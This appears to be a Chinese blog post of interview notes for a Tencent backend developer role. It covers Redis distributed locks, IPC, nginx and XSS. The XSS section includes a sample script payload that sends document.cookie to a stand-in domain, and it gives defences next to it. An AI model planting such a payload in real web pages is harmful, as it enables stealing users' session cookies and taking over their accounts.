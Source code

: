 ```yaml
---
layout: post
title: "腾讯后台开发"
date: 2019-3-13
tag: 面试总结 
---
```


# 一面

### 自我介绍

### 介绍项目

### 看你用了redis，知道redis如何实现分布式锁么

Redis 的 SETNX 指令

使用 SETNX（set if not exist）指令插入一个键值对，如果 Key 已经存在，那么会返回 False，否则插入成功并返回 True。

SETNX 指令和数据库的唯一索引类似，保证了只存在一个 Key 的键值对，那么可以用一个 Key 的键值对是否存在来判断是否存于锁定状态。

EXPIRE 指令可以为一个键值对设置一个过期时间，从而避免了数据库唯一索引实现方式中释放锁失败的问题。

Redis 的 RedLock 算法

使用了多个 Redis 实例来实现分布式锁，这是为了保证在发生单点故障时仍然可用。

- 尝试从 N 个相互独立 Redis 实例获取锁；
- 计算获取锁消耗的时间，只有当这个时间小于锁的过期时间，并且从大多数（N / 2 + 1）实例上获取了锁，那么就认为锁获取成功了；
- 如果锁获取失败，就到每个实例上释放锁。

### 锁的实现原理是什么

[参考博客](https://www.cnblogs.com/duanxz/p/3559510.html)

### 进程之间如何通信

- 管道
- 管程
- 信号量
- 消息队列
- socket

### XSS攻击讲述一下，还知道其他的攻击么

跨站脚本攻击（Cross-Site Scripting, XSS），可以将代码注入到用户浏览的网页上，这种代码包括 HTML 和 JavaScript。

攻击原理

例如有一个论坛网站，攻击者可以在上面发布以下内容：

```
<script>location.href="//domain.com/?c=" + document.cookie</script>
```

之后该内容可能会被渲染成以下形式：

```
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。

危害

- 窃取用户的 Cookie
- 伪造虚假的输入表单骗取个人信息
- 显示伪造的文章或者图片

防范手段

1. 设置 Cookie 为 HttpOnly
2. 过滤特殊字符

[其他常见的攻击技术](https://github.com/CyC2018/CS-Notes/blob/master/docs/notes/%E6%94%BB%E5%87%BB%E6%8A%80%E6%9C%AF.md)

### linux上如何安装nginx

[参考博客](https://www.cnblogs.com/wyd168/p/6636529.html)

### nginx如何实现反向代理


反向代理（ReverseProxy）方式是指以代理服务器来接受internet上的连接请求，然后将请求转发给内部网络上的服务器，并将从服务器上得到的结果返回给internet上请求连接的客户端,简单来说就是真实的服务器不能直接被外部网络访问,想要访问必须通过代理。

### 前端会么

